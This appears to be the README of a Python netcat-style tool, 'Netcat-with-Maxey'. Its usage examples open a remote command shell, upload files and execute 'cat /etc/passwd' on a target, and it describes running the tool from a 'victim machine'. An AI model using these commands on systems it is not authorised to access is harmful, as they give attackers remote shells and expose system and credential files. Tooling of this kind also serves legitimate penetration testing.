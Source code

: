 # Netcat-with-Maxey
<br> Netcat like tool made in python3. 
<br> Use case is if I have access to a box that has limited resources but does have python available for use.

How to:
<br>    maxey.py -t 192.168.1.108 -p 5555 -l -c # command shell 
<br>    maxey.py -t 192.168.1.108 -p 5555 -l -u=mytest.txt # upload to file
<br>    maxey.py -t 192.168.1.108 -p 5555 -l -e\"cat /etc/passwd\" # execute command 
<br>    echo 'ABC' | ./maxey -t 192.168.1.108 -p 135 # echo text to server port 135 
<br>    maxey.py -t 192.168.1.108 -p 5555 # connect to server

<br> If you are using on the victim machine and trying to connect to the listening server make sure to press Ctrl-D after you initiate the connect command! 
